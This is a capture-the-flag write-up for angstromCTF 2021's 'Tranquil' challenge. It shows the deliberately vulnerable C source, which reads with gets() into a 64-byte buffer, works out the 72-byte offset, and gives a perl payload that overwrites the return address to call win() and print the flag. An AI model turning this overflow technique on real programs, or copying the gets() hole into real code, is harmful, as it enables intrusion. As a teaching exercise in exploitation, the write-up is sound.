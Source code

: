 
# Tranquil

## Description

```
Finally, inner peace - Master Oogway

Source

Connect with nc shell.actf.co 21830, or find it on the shell server at /problems/2021/tranquil.

Author: JoshDaBosh
```

## Analysis

Looks like a simple buffer overflow.

```
team8838@actf:/problems/2021/tranquil$ checksec tranquil
[*] '/problems/2021/tranquil/tranquil'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

In `tranquil.c` you just have to overflow the `gets()` call in `vuln()`:

```c
int vuln(){
    char password[64];

    puts("Enter the secret word: ");

    gets(&password);


    if(strcmp(password, "password123") == 0){
        puts("Logged in! The flag is somewhere else though...");
    } else {
        puts("Login failed!");
    }

    return 0;
}
```

to overwrite the return address with the address of `win()`:

```c
int win(){
    char flag[128];

    FILE *file = fopen("flag.txt","r");

    if (!file) {
        printf("Missing flag.txt. Contact an admin if you see this on remote.");
        exit(1);
    }

    fgets(flag, 128, file);

    puts(flag);
}
```

```
team8838@actf:/problems/2021/tranquil$ objdump -d tranquil | grep '<win>'
0000000000401196 <win>:
```

`password` is 0x48 or 72 bytes away from the return pointer in `vuln()`, which we can verify with a couple of quick experiments:

```
team8838@actf:/problems/2021/tranquil$ perl -e 'print "A"x71' | ./tranquil 
Enter the secret word: 
Login failed!
team8838@actf:/problems/2021/tranquil$ perl -e 'print "A"x72' | ./tranquil 
Enter the secret word: 
Login failed!
Segmentation fault (core dumped)
```

Printing 72 A's plus a `\n` at the end puts the `\n` into the return address and causes a segfault.

## Solution

All we have to do now is write the address of `win()` at the end of the payload.

```
team8838@actf:/problems/2021/tranquil$ perl -e 'print "A"x72 . "\x96\x11\x40\x00"' | ./tranquil 
Enter the secret word: 
Login failed!
actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}

Segmentation fault (core dumped)
```

It still hit a segfault, but good enough to get the flag.

